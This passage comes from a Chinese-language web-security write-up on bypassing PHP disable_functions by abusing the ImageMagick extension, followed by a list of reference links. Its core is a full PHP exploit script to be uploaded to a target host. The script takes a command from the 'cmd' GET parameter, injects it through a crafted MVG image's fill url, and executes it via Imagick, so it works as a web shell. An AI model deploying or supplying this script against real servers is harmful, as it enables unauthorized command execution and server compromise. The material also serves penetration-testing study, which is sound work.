 假设此时目标主机仍然设置了disable_functions只是我们无法执行命令，并且查看phpinfo发现其安装并开启了ImageMagick拓展：

![image-20210525170438822](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525170528.png)

此时我们便可以通过攻击ImageMagick绕过disable_functions来执行命令。

将一下利用脚本上传到目标主机上有权限的目录（/var/tmp/exploit.php）：

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";
$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
   $command = 'id';
}
$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;
file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
```

# 0X03 参考

https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD

https://www.anquanke.com/post/id/208451

https://www.anquanke.com/post/id/193117

https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html

[https://mp.weixin.qq.com/s/VR8byhVnebgSEspwtPhhRg](https://mp.weixin.qq.com/s?__biz=MzI0NzEwOTM0MA==&mid=2652474031&idx=1&sn=14bd6796e8f8b5dd2b8b5b35cfe50f45&scene=21#wechat_redirect)

https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions

https://mp.weixin.qq.com/s/lPQ_sITvL40L8vo_-Ol5dA
